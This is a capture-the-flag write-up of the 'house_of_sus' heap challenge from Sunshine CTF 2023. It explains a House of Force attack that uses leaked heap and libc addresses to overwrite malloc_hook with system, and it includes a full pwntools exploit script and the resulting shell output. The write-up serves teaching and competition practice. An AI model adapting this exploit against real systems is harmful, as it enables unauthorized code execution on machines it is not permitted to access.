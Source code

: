 
## Level: Easy

### Challenge
#### TL;DR

create a chunk and overwrite the wilderness with a very large number due to an overflow...

this will overlap the target address and resulting in read-what-where, which we can use it to overwrite malloc_hook with system to pop a shell... 
``` 
checksec ./house_of_sus
[*] '/home/4rsp/Downloads/sunshinectf/house_of_sus'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```
> No PIE, Partial RELRO, debuginfo and not stripped...
> what more can you wish for from a binary 😅
  
![menu](https://github.com/4rsp/writeups/blob/main/Sunshine-CTF-2023/house_of_sus/menu.png)

> amongus... cool menu

Fortunately, we have free leaks on the main menu and option 2 (heap and libc)...

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1)

this will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space..

and this will result in overlapping target address (read-what-where)...

Here is my approach with helpful heap snippets to improve visuality:


![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

> Use the overflow in option 3 to overwrite the wilderness with a very large number.

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)

> Calculate the address of wilderness and the target from the leaks and allocate a chunk with size of target - top_addr - 0x10 # for metadata

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

> Overwrite malloc_hook pointer (the target address) with system

> > ... and finally call malloc with the address of "/bin/sh" in size to pop a shell

```
[+] Starting local process './house_of_sus_patched': pid 27582
HEAP LEAK: 0x2b3c1660
LIBC LEAK:0x7f75fc244390
malloc_hook: 0x7f75fc5ebc30
binsh: 0x7f75fc3b3d88
[*] Switching to interactive mode
sun{4Re_y0U_th3_!mP0st3r_v3rY_su55!}
/bin/sh: 2: 1: not found
$  
```

Calculating the offset for distances was quite painful until I get the hang of it...

You can read more about house of force in ![here](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force) and ![there](https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force)

also check out c0nrad's ![video](https://youtu.be/qA6ajf7qZtQ?t=2277) on this challenge and offical (?) ![write-up](https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py) ...


here is my exploit code:

...enjoy

```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'cat flag'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```

